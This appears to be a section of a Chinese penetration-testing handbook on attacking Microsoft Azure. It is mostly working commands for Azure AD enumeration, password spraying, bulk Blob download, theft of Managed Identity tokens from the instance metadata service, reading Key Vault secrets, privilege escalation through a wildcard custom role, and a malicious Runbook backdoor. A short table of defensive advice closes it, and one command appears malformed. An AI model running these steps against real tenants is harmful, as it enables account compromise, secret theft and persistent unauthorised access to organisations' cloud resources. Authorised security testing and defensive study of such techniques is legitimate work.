

## 19.2 Azure安全核心技巧

Microsoft Azure 是全球第二大公有云平台，其安全模型以 Azure Active Directory（现已更名为 Microsoft Entra ID）为核心身份层，配合资源管理器（ARM）实现统一的资源编排与访问控制。攻击者视角下的 Azure 安全测试，本质上是对身份认证链、资源配置暴露面、存储访问控制和元数据服务的系统性审计。

本节从攻击生命周期出发，覆盖信息收集、身份攻击、存储渗透、虚拟机逃逸、权限提升和持久化各阶段的核心技巧。

### 19.2.1 Azure AD 枚举与信息收集

Azure AD（Microsoft Entra ID）是 Azure 的身份中枢，所有认证和授权决策都经过它。枚举 Azure AD 的目的是绘制组织的身份地图——用户、组、服务主体、应用注册和信任关系，为后续攻击提供目标清单。

#### 环境准备与认证

```bash
# 安装 Azure CLI（Linux/macOS）
curl -sL https://aka.ms/InstallAzureCLIDeb | sudo bash

# 登录方式一：交互式登录（浏览器弹窗）
az login

# 登录方式二：设备代码登录（无浏览器环境，如 SSH 会话）
az login --use-device-code

# 登录方式三：服务主体凭据登录（已有泄露的 appId + password）
az login --service-principal -u <appId> -p <password> --tenant <tenantId>

# 登录方式四：使用 Managed Identity（已在 Azure VM 内部时）
az login --identity

# 确认当前身份和订阅上下文
az account show --query '{user:user.name, subscription:name, tenant:tenantId}' --output table
```

> **关键概念**：`az login` 获取的 token 存储在 `~/.azure/accessTokens.json` 和 `~/.azure/azureProfile.json` 中，攻击者拿到这些文件等同于获得会话凭证。

#### 用户与组枚举

```bash
# 获取当前登录用户详情
az ad signed-in-user show --query '{name:displayName, email:mail, upn:userPrincipalName, id:objectId}' --output table

# 列出所有用户（需要 Directory.Read.All 或更高权限）
az ad user list --query '[].[displayName,userPrincipalName,mail,accountEnabled]' --output table

# 搜索特定用户
az ad user list --search "john" --query '[].[displayName,userPrincipalName]' --output table

# 列出所有安全组
az ad group list --query '[].[displayName,description,securityEnabled]' --output table

# 查看组成员
az ad group member list --group "Global Admins" --query '[].[displayName,userPrincipalName]' --output table

# 列出目录角色成员（如 Global Administrator）
az ad directory-role list --query '[displayName]' --output table
az ad directory-role member list --role "Global Administrator" --query '[].[displayName,userPrincipalName]' --output table
```

#### 服务主体与应用注册

服务主体（Service Principal）是 Azure 中的应用程序身份，相当于 AWS 中的 IAM Role。它们通常拥有比普通用户更高的权限，且密码管理容易出现疏漏。

```bash
# 列出所有服务主体
az ad sp list --all --query '[].[displayName,appId,appOwnerOrganizationId,accountEnabled]' --output table

# 列出所有应用注册
az ad app list --query '[].[displayName,appId,identifierUris,signInAudience]' --output table

# 查看应用注册的凭据（密码/证书到期时间）
az ad app credential list --id <appId>

# 查看服务主体拥有的角色分配
az role assignment list --assignee <appId> --query '[].[roleDefinitionName,scope]' --output table

# 列出订阅信息
az account list --query '[].[name,id,state,isDefault]' --output table

# 列出资源组
az group list --query '[].[name,location,provisioningState]' --output table
```

#### Azure AD 枚举工具对比

| 工具 | 语言 | 用途 | 特点 |
|------|------|------|------|
| **AzureHound** | Go | 图数据库收集 | 输出 BloodHound 格式，可视化攻击路径 |
| **ROADtools** | Python | AD 枚举与令牌操作 | 支持 token 操纵，可绕过部分条件访问 |
| **AADInternals** | PowerShell | 全方位 AAD 攻击 | 支持同步攻击、PRT 获取、后门植入 |
| **Stormspotter** | Python | 租户可视化 | 图形化展示资源关系和攻击面 |
| **MicroBurst** | PowerShell | 综合安全评估 | 包含存储、VM、Key Vault 等多模块 |

```bash
# AzureHound 使用示例
azurehound -u user@target.com -p 'Password123!' list --tenant target.com all

# ROADtools 使用示例
roadrecon auth -u user@target.com -p 'Password123!'
roadrecon gather
roadrecon gui  # 启动 Web 界面浏览收集的数据
```

#### Azure AD 密码喷洒与用户枚举

密码喷洒（Password Spraying）是针对 Azure AD 最常见的初始访问手段。与暴力破解不同，密码喷洒用少量常见密码尝试大量账户，规避账户锁定策略。

```bash
# MSOLSpray - PowerShell 密码喷洒工具
Import-Module .\MSOLSpray.ps1
Invoke-MSOLSpray -UserList .\users.txt -Password "Company2023!" -Verbose

# o365creeper - 枚举有效的 Office 365 邮箱
python3 o365creeper.py -e user@target.com
# 返回 "EXISTS" 或 "DOES NOT EXIST"

# 使用 MSOL 服务枚举（基于 HTTP 响应差异判断用户是否存在）
curl -s -X POST "https://login.microsoftonline.com/getuserrealm.srf" \
  -d "login=user@target.com" | jq '.Login, .DomainType, .FederationBrandName'

# O365Spray - 更完善的喷洒与枚举工具
python3 o365spray.py --enum -U users.txt --domain target.com
python3 o365spray.py --spray -U users.txt -P passwords.txt --domain target.com
```

> **防御注意**：Azure AD 默认的智能锁定策略会在 10 次失败后触发，但锁定阈值对管理员和普通用户不同。Microsoft 建议启用 Azure AD Identity Protection 和条件访问策略来应对密码喷洒。

### 19.2.2 Azure Blob Storage 渗透测试

Azure Blob Storage 是 Azure 的对象存储服务，类似 AWS S3。存储配置不当是 Azure 环境中最常见的安全问题之一——公开的 Blob 容器可能泄露数据库备份、日志文件、源代码、密钥和敏感配置。

#### 存储账户枚举

```bash
# 列出订阅下所有存储账户
az storage account list --query '[].[name,resourceGroup,location,primaryEndpoints.blob]' --output table

# 获取存储账户的访问密钥（需要权限）
az storage account keys list --account-name targetstorage --query '[].[keyName,value]' --output table

# 枚举存储账户中的容器
az storage container list --account-name targetstorage \
  --auth-mode key --account-key <key> \
  --query '[].[name,publicAccess,lastModified]' --output table

# 匿名枚举容器（存储账户允许匿名读取时）
az storage container list --account-name targetstorage --auth-mode login \
  --query '[].[name,publicAccess]' --output table

# 检查容器的公共访问级别
az storage container show --name <container> --account-name targetstorage \
  --query '{name:name, publicAccess:publicAccess, leaseStatus:leaseStatus}'
```

#### Blob 读取与数据提取

```bash
# 列出容器中的 Blob
az storage blob list --container-name <container> --account-name targetstorage \
  --query '[].[name,contentLength,contentSettings.contentType,lastModified]' --output table

# 下载指定 Blob
az storage blob download --container-name <container> --name sensitive-file.pdf \
  --file ./downloaded.pdf --account-name targetstorage

# 批量下载容器中的所有 Blob
az storage blob download-batch --source <container> --destination ./loot/ \
  --account-name targetstorage

# 使用 SAS 令牌访问（有时间限制的临时访问令牌）
# 生成 SAS 令牌
az storage container generate-sas --account-name targetstorage \
  --name <container> --permissions rwdl --expiry 2025-12-31

# 使用 SAS 令牌列出 Blob
az storage blob list --container-name <container> --account-name targetstorage \
  --sas-token "sv=2020-08-04&ss=b&srt=sco&sp=rl&se=2025-12-31&sig=..."

# 使用 SAS 令牌通过 URL 直接访问
curl "https://targetstorage.blob.core.windows.net/container/file.txt?sv=2020-08-04&sig=..."
```

#### 存储账户公开扫描

当没有凭据时，可以通过 DNS 枚举和 HTTP 探测发现公开的存储账户：

```bash
# 使用 MicroBurst 枚举公开的存储账户
Import-Module .\MicroBurst.psm1
Invoke-EnumerateAzureBlobs -Base targetcompany

# 使用 cloud_enum 进行多云存储桶枚举
python3 cloud_enum.py -k targetcompany -l ./results.txt

# 手动验证公开存储账户
curl -s "https://targetstorage.blob.core.windows.net/?comp=list" | xmllint --format -

# 使用 BlobHunter 批量扫描公开 Blob
python3 BlobHunter.py --keyword targetcompany
```

#### SAS 令牌安全风险

SAS（Shared Access Signature）令牌是 Azure 存储中最容易被滥用的机制：

| SAS 类型 | 作用域 | 风险等级 | 说明 |
|----------|--------|----------|------|
| Account SAS | 整个存储账户 | 极高 | 可读写所有容器和 Blob |
| Service SAS | 单个服务（Blob/Queue/Table） | 高 | 可操作指定服务的所有资源 |
| User Delegation SAS | 基于 AAD 凭据 | 中 | 受 AAD 权限约束但仍可能过度授权 |

常见风险场景：
- SAS 令牌嵌入在前端 JavaScript 或移动应用代码中
- SAS 令牌设置了过长的有效期（数年甚至永不过期）
- SAS 令牌权限过宽（`sp=rwdl` 而非仅 `sp=r`）
- 没有使用存储防火墙限制 SAS 令牌的来源 IP

```bash
# 解码 SAS 令牌参数
echo "sv=2020-08-04&ss=b&srt=sco&sp=rwdl&se=2025-12-31&sig=abc" | tr '&' '\n'

# 输出：
# sv=2020-08-04      # API 版本
# ss=b               # 服务类型：blob
# srt=sco            # 资源类型：service, container, object
# sp=rwdl            # 权限：read, write, delete, list
# se=2025-12-31      # 过期时间
# sig=abc            # 签名
```

### 19.2.3 Azure VM 与实例元数据攻击

Azure 虚拟机（VM）是计算层攻击的主要目标。通过元数据服务和 Managed Identity，攻击者可以从 VM 内部横向扩展到整个 Azure 环境。

#### VM 资源枚举

```bash
# 列出所有虚拟机
az vm list --query '[].[name,resourceGroup,location,hardwareProfile.vmSize]' --output table

# 获取 VM 详细信息（OS、网络配置、磁盘）
az vm show --resource-group myRG --name myVM --query '{os:storageProfile.imageReference, nic:networkProfile.networkInterfaces[0].id}'

# 获取所有 VM 的公网 IP
az vm list-ip-addresses --query '[].[virtualMachine.name,virtualMachine.network.publicIpAddresses[0].ipAddress]' --output table

# 列出网络安全组规则（入站端口）
az network nsg list --query '[].[name,resourceGroup]' --output table
az network nsg rule list --nsg-name myNSG --resource-group myRG \
  --query '[].[name,direction,priority,destinationPortRange,access]' --output table

# 列出可用的 VM 镜像（可用于识别防御工具部署情况）
az vm image list --output table --query '[].[publisher,offer,sku]' --all
```

#### 实例元数据服务（IMDS）

Azure Instance Metadata Service（IMDS）是运行在每个 VM 上的 REST API，端点为 `169.254.169.254`。攻击者如果已经在 VM 内部，可以通过 IMDS 获取：

- VM 的完整配置信息
- Managed Identity 的 OAuth 2.0 访问令牌
- 网络接口、负载均衡器等资源信息

```bash
# 获取 VM 实例元数据
curl -s -H "Metadata: true" \
  "http://169.254.169.254/metadata/instance?api-version=2021-02-01" | jq .

# 获取 VM 的计算信息（名称、大小、区域、OS）
curl -s -H "Metadata: true" \
  "http://169.254.169.254/metadata/instance/compute?api-version=2021-02-01" | jq .

# 获取网络接口信息
curl -s -H "Metadata: true" \
  "http://169.254.169.254/metadata/instance/network?api-version=2021-02-01" | jq .

# 获取 Managed Identity 的访问令牌（最关键）
curl -s -H "Metadata: true" \
  "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/" | jq .

# 使用获取的 token 查询 Azure 资源
TOKEN=$(curl -s -H "Metadata: true" \
  "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/" | jq -r '.access_token')

curl -s -H "Authorization: Bearer $TOKEN" \
  "https://management.azure.com/subscriptions/{sub-id}/resourceGroups?api-version=2021-04-01" | jq .
```

> **重要区别**：与 AWS IMDS v1 不同，Azure IMDS 不需要先获取临时凭据再请求 token，直接一步就能拿到 OAuth 2.0 token。但 Azure IMDS 要求请求头包含 `Metadata: true`，这可以在一定程度上防御 SSRF 利用。

#### Managed Identity 滥用

Managed Identity 是 Azure 推荐的无密钥认证方式，VM 可以自动获取访问令牌来操作 Azure 资源。但如果 VM 被攻陷，这些权限就成为攻击者的跳板。

```bash
# 在 VM 内部列出已分配的 Managed Identity
curl -s -H "Metadata: true" \
  "http://169.254.169.254/metadata/identity/info?api-version=2018-02-01" | jq .

# 获取不同资源的 token
# 获取 Graph API token（用于 AD 操作）
curl -s -H "Metadata: true" \
  "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://graph.microsoft.com/" | jq .

# 获取 Azure Key Vault token
curl -s -H "Metadata: true" \
  "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://vault.azure.net/" | jq .

# 获取 Azure Storage token
curl -s -H "Metadata: true" \
  "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://storage.azure.com/" | jq .

# 使用 Key Vault token 读取机密
VAULT_TOKEN=$(curl -s -H "Metadata: true" \
  "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://vault.azure.net/" | jq -r '.access_token')

curl -s -H "Authorization: Bearer $VAULT_TOKEN" \
  "https://mykeyvault.vault.azure.net/secrets?api-version=7.4" | jq .
```

### 19.2.4 Azure 权限提升技术

#### Azure AD 角色与 RBAC 权限提升

```bash
# 检查当前用户的角色分配
az role assignment list --assignee $(az ad signed-in-user show --query objectId -o tsv) \
  --query '[].[roleDefinitionName,scope]' --output table

# 查找具有 Owner 或 Contributor 角色的用户
az role assignment list --query "[?roleDefinitionName=='Owner'].[principalName,scope]" --output table
az role assignment list --query "[?roleDefinitionName=='Contributor'].[principalName,scope]" --output table

# 利用 Contributor 权限创建自定义角色（权限提升路径）
az role definition create --role-definition '{
  "Name": "CustomEscalation",
  "Actions": ["*"],
  "AssignableScopes": ["/subscriptions/{sub-id}"]
}'

# 将自定义角色分配给自己
az role assignment create --role "CustomEscalation" \
  --assignee $(az ad signed-in-user show --query objectId -o tsv) \
  --scope "/subscriptions/{sub-id}"
```

#### Azure Runbook 持久化

Azure Automation Account 的 Runbook 是一种常见的持久化后门，可以在不触发安全警报的情况下定期执行恶意代码。

```bash
# 列出 Automation Account
az automation account list --query '[].[name,resourceGroup,location]' --output table

# 列出现有 Runbook
az automation runbook list --automation-account-name myAutomation --resource-group myRG \
  --query '[].[name,runbookType,state]' --output table

# 创建恶意 Runbook（持久化后门）
az automation runbook create --automation-account-name myAutomation \
  --resource-group myRG --name "HealthCheck" --type PowerShell

az automation runbook replace-content --automation-account-name myAutomation \
  --resource-group myRG --name "HealthCheck" --content @malicious_runbook.ps1

# 发布并启动 Runbook
az automation runbook publish --automation-account-name myAutomation \
  --resource-group myRG --name "HealthCheck"

az automation runbook start --automation-account-name myAutomation \
  --resource-group myRG --name "HealthCheck"
```

#### Key Vault 密钥窃取

Azure Key Vault 集中管理密钥、密码和证书，是攻击者的高价值目标。

```bash
# 列出所有 Key Vault
az keyvault list --query '[].[name,resourceGroup,location]' --output table

# 列出 Vault 中的机密
az keyvault secret list --vault-name myVault --query '[].[name,attributes.enabled,attributes.expires]' --output table

# 读取机密值
az keyvault secret show --vault-name myVault --name mySecret --query 'value' -o tsv

# 列出密钥
az keyvault key list --vault-name myVault --query '[].[name,attributes.enabled]' --output table

# 列出证书
az keyvault certificate list --vault-name myVault --query '[].[name,attributes.expires]' --output table

# 检查 Vault 的访问策略
az show --name myVault --query '{policies:properties.accessPolicies, networkAcls:properties.networkAcls}' --output json
```

### 19.2.5 Azure 网络与横向移动

```bash
# 列出所有虚拟网络
az network vnet list --query '[].[name,addressSpace.addressPrefixes[0],resourceGroup]' --output table

# 列出 VNet 对等连接（跨订阅横向路径）
az network vnet peering list --vnet-name myVNet --resource-group myRG \
  --query '[].[name,peeringState,remoteVirtualNetwork.id]' --output table

# 列出 Application Gateway / Load Balancer
az network application-gateway list --query '[].[name,resourceGroup,frontendIPConfigurations[0].publicIPAddress.id]' --output table

# 列出公共 IP
az network public-ip list --query '[].[name,ipAddress,resourceGroup]' --output table

# 列出 VPN Gateway（混合云攻击入口）
az network vnet-gateway list --query '[].[name,resourceGroup,gatewayType]' --output table

# 列出 Private Endpoint（识别内网可达的 PaaS 服务）
az network private-endpoint list --query '[].[name,privateLinkServiceConnections[0].privateLinkServiceId]' --output table
```

### 19.2.6 Azure 日志与取证

Azure Activity Log 和 Azure AD Sign-in Log 记录了所有操作和认证事件，了解它们有助于评估攻击行为的可追溯性。

```bash
# 查看活动日志（最近的操作记录）
az monitor activity-log list --max-events 50 \
  --query '[].[eventTimestamp,caller,operationName.value,status.value]' --output table

# 筛选特定资源组的操作
az monitor activity-log list --resource-group myRG \
  --query '[].[eventTimestamp,caller,operationName.value]' --output table

# 查看 Azure AD 登录日志（需要 Azure AD Premium P1/P2）
az ad user list --filter "startsWith(displayName,'test')" \
  --query '[].[displayName,signInSessionsValidFromDateTime]' --output table

# 检查诊断设置（确定日志是否被转发到外部 SIEM）
az monitor diagnostic-settings list --resource "/subscriptions/{sub-id}" \
  --query '[].[name,storageAccountId,eventHubAuthorizationRuleId,workspaceId]' --output table
```

### 19.2.7 常见误区与安全建议

| 误区 | 实际情况 | 正确做法 |
|------|----------|----------|
| "Managed Identity 是安全的，不需要审计" | MI 的权限可能过宽，被 VM 内的攻击者直接利用 | 最小权限原则，定期审计 MI 的角色分配 |
| "SAS 令牌有签名所以不会被伪造" | SAS 令牌一旦泄露就可以在任何地方使用 | 使用 User Delegation SAS + 短有效期 + IP 限制 |
| "Azure AD 的条件访问可以防住一切" | 条件访问策略配置复杂，容易遗漏边缘情况 | 结合 Identity Protection 和 PIM 使用 |
| "存储账户的防火墙默认是开启的" | 默认所有网络均可访问，需手动配置防火墙 | 启用防火墙 + Private Endpoint |
| "IMDS 只在 VM 内部可达" | SSRF 漏洞可能使 IMDS token 被窃取 | 确保应用层防御 SSRF，限制 MI 权限范围 |

### 19.2.8 综合攻击链实战场景

以下是一个完整的 Azure 环境攻击链，从初始访问到横向移动：



**攻击链步骤说明**：

1. **信息收集**：使用 cloud_enum 或 MicroBurst 扫描公开的存储账户
2. **初始访问**：通过公开 Blob 中泄露的配置文件获取凭据，或通过密码喷洒获取有效账户
3. **AD 枚举**：使用 AzureHound 或 ROADtools 绘制完整的身份关系图
4. **权限分析**：识别具有过度权限的服务主体和用户
5. **权限提升**：利用 Contributor 权限创建自定义角色或直接操作资源
6. **持久化**：通过 Runbook、Logic App 或 Azure Function 建立持久访问
7. **横向移动**：利用 Managed Identity token 访问 Key Vault、Storage 和其他 PaaS 服务
